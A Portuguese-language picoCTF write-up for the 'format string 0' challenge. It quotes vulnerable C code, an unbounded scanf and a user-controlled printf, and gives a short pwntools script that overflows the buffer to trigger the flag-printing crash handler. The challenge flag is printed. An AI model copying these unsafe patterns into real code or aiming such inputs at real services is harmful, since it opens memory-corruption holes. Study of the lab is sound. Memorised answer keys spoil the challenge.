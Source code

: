# WriteUp: format string 0
## Descrição do Desafio:
**Autor**: Cheng Zhang \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/433?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Can you use your knowledge of format strings to make the customers happy?
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Este desafio nos fornece o seu código fonte, `.c`. Analisando ele, vemos que ele contém diversas funções, mas elas estão todas ali para te distrair, porque logo na `main()` podemos notar que é setado uma função para caso ocorra *segmentation fault*, e a função que é chamada imprime a **flag** para nós.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

...........

int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```

{% endcode %}

Outra coisa muito interessante, é que na função `serve_patrick()`, podemos estourar um *buffer* que tem ali, causando *segmentation fault*.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1); //Estouro de buffer.
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}
```

{% endcode %}

### 2. Solução
A solução é simples, basta estourar o *buffer* na função `serve_patrick()`.
### 2.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

p = remote(ip, porta) #Troque pelos valores

payload = "A" * 100

p.sendlineafter(b"recommendation: ", payload)
print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`
## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
